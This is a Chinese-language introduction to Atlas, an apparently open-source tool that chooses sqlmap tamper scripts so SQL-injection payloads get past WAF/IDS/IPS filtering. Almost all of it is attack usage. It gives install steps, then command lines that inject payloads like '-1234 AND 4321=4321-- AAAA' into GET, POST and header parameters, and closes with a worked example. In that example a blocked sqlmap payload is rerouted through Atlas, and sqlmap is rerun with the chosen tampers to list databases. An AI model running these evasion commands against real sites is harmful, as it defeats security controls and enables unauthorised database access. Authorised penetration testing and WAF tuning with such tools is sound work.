


# Atlas修改SQLMap tampers 绕过WAF/IDS/IPS

**Atlas**是一个开源工具，可以修改sqlmap tampers 绕过WAF / IDS / IPS，该工具基于返回的状态码。

### Atlas安装

```text
git clone https://github.com/m4ll0k/Atlas.git atlas
cd atlas
python atlas.py # python3+
```





### 使用

```text
python atlas.py --url http://site.com/index.php?id=Price_ASC --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```

**注入点（带`%%inject%%`）：**

#### get:

```text
python atlas.py --url http://site.com/index/id/%%10%% --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```

#### post:

```text
python atlas.py --url http://site.com/index/id/ -m POST -D 'test=%%10%%' --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```

#### headers:

```text
python atlas.py --url http://site.com/index/id/ -H 'User-Agent: mozilla/5.0%%inject%%' -H 'X-header: test' --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```

#### 连接tampers:

```text
python atlas.py --url http://site.com/index/id/%%10%% --payload="-1234 AND 4321=4321-- AAAA" --concat "equaltolike,htmlencode" --random-agent -v
```

获取tampers列表：

```text
python atlas.py -g
```

### 例

1. 运行SQLMap：

```text
python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3
```


`Price_ASC') AND 8716=4837 AND ('yajr'='yajr` 被WAF / IDS / IPS阻止，现在尝试使用Atlas：

```text
python atlas.py --url 'http://site.com/index.php?id=Price_ASC' --payload="') AND 8716=4837 AND ('yajr'='yajr" --random-agent -v
```


在此刻：

```text
python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3 --tamper=versionedkeywords,...
```

### 项目地址

GitHub [https://github.com/m4ll0k/Atlas](https://github.com/m4ll0k/Atlas)

